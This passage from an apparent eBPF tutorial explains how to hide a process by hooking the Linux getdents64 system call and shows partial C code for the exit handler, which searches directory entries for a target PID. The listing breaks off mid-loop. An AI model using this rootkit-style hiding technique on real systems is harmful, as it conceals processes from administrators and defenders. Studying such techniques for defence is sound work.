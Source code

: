 Next, we declare a structure called `linux_dirent64`. This structure represents a Linux directory entry and contains metadata such as the inode number, the offset of the next directory entry, the length of the current directory entry, the file type, and the filename.

Then there is the prototype for the `getdents64` function. This function is a Linux system call that reads the contents of a directory. Our goal is to modify the directory entries during the execution of this function to enable process hiding.

The subsequent section is the concrete implementation of the eBPF program. We define a function called `handle_getdents_enter` at the entry point of the `getdents64` system call. This function first gets the PID and thread group ID of the current process, and then checks to see if it is the process we are interested in. If we set `target_ppid`, then we only focus on processes whose parent has a PID of `target_ppid`. If `target_ppid` is 0, we focus on all processes.

After confirming that the current process is the one we are interested in, we save the arguments to the `getdents64` system call into a map to be used when the system call returns. In particular, we focus on the second argument to the `getdents64` system call, which is a pointer to the `linux_dirent64` structure representing the contents of the directory to be read by the system call. We save this pointer, along with the current PID and thread group ID, as a key-value pair in the `map_buffs` map.

This completes the processing at the entry point of the `getdents64` system call. When the system call returns, we will modify the directory entry in the `handle_getdents_exit` function to hide the process.

In the next snippet, we will implement the handling at the return of the `getdents64` system call. Our main goal is to find the process we want to hide and modify the directory entry to hide it.

We start by defining a function called `handle_getdents_exit` that will be called when the `getdents64` system call returns.

```c

SEC("tp/syscalls/sys_exit_getdents64")
int handle_getdents_exit(struct trace_event_raw_sys_exit *ctx)
{
    size_t pid_tgid = bpf_get_current_pid_tgid();
    int total_bytes_read = ctx->ret;
    // if bytes_read is 0, everything's been read
    if (total_bytes_read <= 0) {
        return 0;
    }

    // Check we stored the address of the buffer from the syscall entry
    long unsigned int* pbuff_addr = bpf_map_lookup_elem(&map_buffs, &pid_tgid);
    if (pbuff_addr == 0) {
        return 0;
    }

    // All of this is quite complex, but basically boils down to
    // Calling 'handle_getdents_exit' in a loop to iterate over the file listing
    // in chunks of 200, and seeing if a folder with the name of our pid is in there.
    // If we find it, use 'bpf_tail_call' to jump to handle_getdents_patch to do the actual
    // patching
    long unsigned int buff_addr = *pbuff_addr;
    struct linux_dirent64 *dirp = 0;
    int pid = pid_tgid >> 32;
    short unsigned int d_reclen = 0;
    char filename[max_pid_len];

    unsigned int bpos = 0;
    unsigned int *pBPOS = bpf_map_lookup_elem(&map_bytes_read, &pid_tgid);
    if (pBPOS != 0) {
        bpos = *pBPOS;
    }

    for (int i = 0; i < 200; i ++) {
```